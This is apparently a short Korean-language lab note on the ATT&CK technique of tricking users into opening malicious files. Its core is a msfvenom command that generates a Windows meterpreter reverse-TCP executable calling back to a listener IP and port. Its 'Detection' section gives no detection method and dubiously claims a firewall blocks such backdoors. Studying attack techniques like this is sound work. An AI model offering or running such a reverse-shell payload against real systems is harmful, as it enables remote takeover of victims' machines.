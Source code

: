 # Description

    공격자는 실행을 얻기 위해 사용자가 악성 파일을 여는 것에 의존할 수 있습니다.
    사용자는 코드 실행으로 이어지는 파일을 열도록 하기 위해 사회 공학을 받을 수 있습니다.
    이 사용자 작업은 일반적으로 스피어피싱 첨부 파일 의 후속 동작으로 관찰됩니다.
    공격자는 .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif 및 .cpl을 포함하여 사용자가
    실행해야 하는 여러 유형의 파일을 사용 할 수 있습니다.
    
# ATT&CK payload

![image](https://user-images.githubusercontent.com/108965611/178094934-ab037af3-7334-4a7a-89e5-c91e213df4ab.png)

    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.18 lport=7777 -f exe > /home/choi/test.exe
    디렉토리 안에 text.exe 악성코드 파일 생성
    
![image](https://user-images.githubusercontent.com/108965611/178094965-30e43a97-5054-4fee-b24b-b326b6a0f934.png)

    정상적으로 payload 완성
    
    
    
# Detection

    위 payload 는 테스트일뿐 실사용이 불가능
    이유는 모든 os에서 위와같은 백도어는 방화벽으로 사전차단이 가능하기때문
    이런 바이러스를 악용하기 위해서는 방화벽 우회가 필수적임
